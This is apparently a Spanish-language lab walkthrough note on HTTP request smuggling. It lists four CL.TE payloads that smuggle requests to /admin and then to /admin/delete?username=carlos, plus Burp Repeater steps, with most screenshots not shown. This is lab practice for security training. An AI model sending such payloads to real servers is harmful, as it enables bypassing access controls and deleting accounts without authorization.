 
![[Pasted image 20230712203852.png]]

![[Pasted image 20230712203913.png]]

payloads de bug bounty espana:

* Primer payload:
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X

* Segundo payload:
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X


* Tercer payload:
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

* Cuarto payload:
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

![[Pasted image 20230712205236.png]]

el root lo paso al repeater:

![[Pasted image 20230712205306.png]]

cambio el tipo de request, lo paso a 1.1 y limpio:

![[Pasted image 20230712205418.png]]

pruebo enviar el request:

![[Pasted image 20230712205438.png]]

aplicando el primer payload:

![[Pasted image 20230712205542.png]]

![[Pasted image 20230712205558.png]]

segundo payload:

![[Pasted image 20230712205641.png]]

(por favor quitar el espacio en blanco de la linea 12 para obtener el request 200)

![[Pasted image 20230712205736.png]]

tecer payload:

![[Pasted image 20230712205814.png]]

![[Pasted image 20230712205842.png]]

cuarto payload:

![[Pasted image 20230712205932.png]]

![[Pasted image 20230712205946.png]]

espero un segundo y vuelvo a enviar el request:

![[Pasted image 20230712210023.png]]

![[Pasted image 20230712210040.png]]